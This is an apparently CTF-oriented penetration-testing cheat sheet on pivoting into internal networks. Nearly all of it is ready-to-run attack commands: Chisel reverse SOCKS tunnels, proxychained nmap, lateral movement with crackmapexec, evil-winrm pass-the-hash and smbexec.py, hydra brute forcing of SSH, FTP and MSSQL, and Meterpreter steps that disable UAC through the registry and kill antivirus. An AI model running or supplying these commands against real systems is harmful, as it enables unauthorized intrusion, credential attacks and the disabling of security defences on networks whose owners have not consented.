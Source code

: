 # Scanning though a pivot    
## Contents    
- [Contents    ](#contents)
- [Subnet Enumeration Commands    ](#subnet-enumeration-commands)
- [ProxyChains    ](#proxychains)
  * [SSH Dynamic Tunnels     ](#ssh-dynamic-tunnels)
  * [Chisel   ](#chisel)
  * [Nmap scan through a dynamic SOCKS proxy  ](#nmap-scan-through-a-dynamic-socks-proxy)
  * [Web access:    ](#web-access)
  * [Use WinRM through proxychains         ](#use-winrm-through-proxychains)
  * [MSSQL Access Through Proxychains       ](#mssql-access-through-proxychains)
  * [RDP through ProxyChains       ](#rdp-through-proxychains)
  * [SMBExec Through Proxychains      ](#smbexec-through-proxychains)
  * [Brute Force a Service Through Proxychains    ](#brute-force-a-service-through-proxychains)
- [Uploading Static Binaries    ](#uploading-static-binaries)
- [Exploiting Through a Tunnel    ](#exploiting-through-a-tunnel)
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
Edit the below values in proxychains.conf or proxychains4.conf to get faster scan results (adjust based on quality of the connection and the baseline TCP response time):     

   tcp_read_time_out 1200       
   tcp_connect_time_out 800  
### SSH Dynamic Tunnels     
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
### Chisel   
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
### Nmap scan through a dynamic SOCKS proxy  
Only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option:        

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
### Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     

### Use WinRM through proxychains         

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
    proxychains evil-winrm -u Administrator -H 'hash' -i 10.10.10.10    #pass the hash         
### MSSQL Access Through Proxychains       
 
    proxychains sqsh -S 172.16.1.5 -U user -P password    
### RDP through ProxyChains       

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      
### SMBExec Through Proxychains      
Using Impacket SMBexec.py script - often caught by AV so be careful. Smbexec has limited commands, so you will want to execute a payload to get a shell.            

    proxychains -q smbexec.py test/admin:test@192.168.1.10         
    proxychains -q /usr/share/doc/python3-impacket/examples/smbexec.py domain/user:'password'@172.16.1.5    
    
### Brute Force a Service Through Proxychains    

    proxychains hydra 10.10.10.10 ssh -s 22 -L users.txt -P passwords.txt -t 4     
    proxychains hydra -L usernames -P passwords 10.10.10.0/24 ftp       #brute force a subnet   
    proxychains hydra -L users –P passwords <IP> mssql   #MSSQL    
    
## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
## Exploiting Through a Tunnel    
Web exploits in Python - you probably need to proxy the traffic through a tunnel (probably socks5) using requests:    

    proxies = {
      "http": "socks5://127.0.0.1:1080",
    }

    proxies ={'http':'http://127.0.0.1:8080','https': 'https://127.0.0.1:8080'}      #burp proxy   

    r = requests.get(url, proxies=proxies)        
    